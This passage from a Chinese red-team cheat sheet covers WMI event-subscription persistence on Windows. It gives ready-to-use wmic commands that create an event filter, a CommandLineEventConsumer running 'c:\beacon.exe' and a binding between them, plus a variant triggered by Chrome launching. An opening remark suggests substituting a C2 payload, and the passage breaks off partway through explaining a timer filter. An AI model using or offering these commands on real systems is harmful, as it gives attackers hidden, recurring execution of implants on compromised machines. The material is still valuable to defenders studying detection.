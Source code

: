 注意：可以考虑添加Powershell的时间间隔器，需要上线至C2则将Payload替换成C2的exe或者dll或者ps1即可

#### 注册一个 WMI 事件过滤器

```cmd
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BugSecFilter", EventNamespace = "root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __TimerEvent WITHIN 10 WHERE TimerID = 'BugSecFilter'"
```

#### 注册一个 WMI 事件消费者

```cmd
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BugSecConsumer", CommandLineTemplate="cmd.exe /c  c:\beacon.exe"
```

#### 将事件消费者绑定到事件过滤器

```cmd
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter='\\.\root\subscription:__EventFilter.Name="BugSecFilter"', Consumer='\\.\root\subscription:CommandLineEventConsumer.Name="BugSecConsumer"'
```

```bat
:: Based on http://www.exploit-monday.com/2016/08/wmi-persistence-using-wmic.html

:: the following command are meant for cmd but can be used with wmic.exe by simply writing them without the wmic at the start.

:: Create an __EventFilter instance.
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BugSecFilter", EventNamespace = "root\cimv2", QueryLanguage="WQL", Query="select * from __InstanceCreationEvent within 5 where targetInstance isa 'Win32_Process' and TargetInstance.Name = 'chrome.exe'"

:: Create an __EventConsumer instance
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BugSecConsumer", CommandLineTemplate="cmd.exe /c echo test > c:\WMI-wmic.txt"

:: Create a __FilterToConsumerBinding instance
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter='\\.\root\subscription:__EventFilter.Name="BugSecFilter"', Consumer='\\.\root\subscription:CommandLineEventConsumer.Name="BugSecConsumer"'
```

### 定时执行

Step 1

- `/NAMESPACE:"\\root\subscription"`: 指定 WMI 命名空间为 "\root\subscription"，这是用于访问事件订阅相关信息的命名空间
- `PATH __EventFilter CREATE`: 创建一个名为 "__EventFilter" 的对象，该对象是事件筛选器
- `Name="BotFilter82"`: 设置筛选器的名称为 "BotFilter82"
- `EventNameSpace="root\cimv2"`: 设置事件名称空间为 "root\cimv2"，表示在此名称空间中查询事件
- `QueryLanguage="WQL"`: 设定查询语言为 WQL (Windows Query Language)
- `Query="SELECT * FROM __InstanceModificationEvent WITHIN 120 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"`: 设置查询语句，该语句使用了 "__InstanceModificationEvent" 类来监视某个时间段内（120秒） "Win32_PerfFormattedData_PerfOS_System" 类型的实例修改事件

